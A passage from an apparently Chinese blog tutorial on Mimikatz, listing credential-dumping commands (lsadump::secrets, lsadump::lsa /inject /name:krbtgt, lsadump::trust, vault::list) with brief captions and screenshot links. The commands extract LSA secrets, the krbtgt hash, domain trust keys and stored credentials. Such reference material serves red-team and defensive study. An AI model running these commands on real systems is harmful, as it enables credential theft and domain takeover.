 ![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007164227651.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


**secrets**  


```text
lsadump::secrets
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007164335686.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​。

**lsa：获取指定用户信息**

```text
lsadump::lsa
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007164615750.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


```text
lsadump::lsa /inject /name:krbtgt
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007164659821.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


**trust：检索域信任信息**

```text
lsadump::trust
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007164740768.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


**dcsync**

**dcshadow**  


### \*\*\*\*[**vault**](https://github.com/gentilkiwi/mimikatz/wiki/module-~-vault)\*\*\*\*

**list –列出存储的凭据**

```text
vault::list
```
